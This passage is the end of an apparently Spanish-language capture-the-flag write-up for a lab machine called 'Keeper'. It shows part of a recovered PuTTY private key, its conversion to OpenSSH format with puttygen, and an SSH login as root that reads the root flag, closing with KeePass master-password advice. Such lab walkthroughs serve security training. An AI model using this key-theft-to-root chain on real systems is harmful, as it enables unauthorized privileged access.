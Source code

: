 ```bash
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0        
```

Es posible convertir la clave a formato OpenSSH utilizando puttygen desde la línea de comandos:

```bash
┌─[root@kali]─[/home/user/keepass]
└──╼ puttygen putty.ppk -O private-openssh -o id_rsa         
```

Una vez que tengas tu clave en formato ```id_rsa```, no olvides establecer los permisos correctos para el archivo:

```bash
┌─[root@kali]─[/home/user/keepass]
└──╼ chmod 600 id_rsa         
```

Para terminar nos conectamos como el usuario root con el ```id_rsa``` generado:

```bash
┌─[root@kali]─[/home/user/keepass]
└──╼ ssh root@10.10.11.227 -i id_rsa
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# ls
root.txt  RT30000.zip  SQL
root@keeper:~# cat root.txt 
3....f22a3ecdac7..............
         
```

### Recomendaciones

Tu contraseña maestra es el primer y más crítico nivel de defensa. Asegúrate de que sea larga, compleja y única, además de mantener siempre actualizado el gestor de contraseñas pues el equipo detrás de KeePass y la comunidad en general son activos en la identificación y corrección de problemas de seguridad.
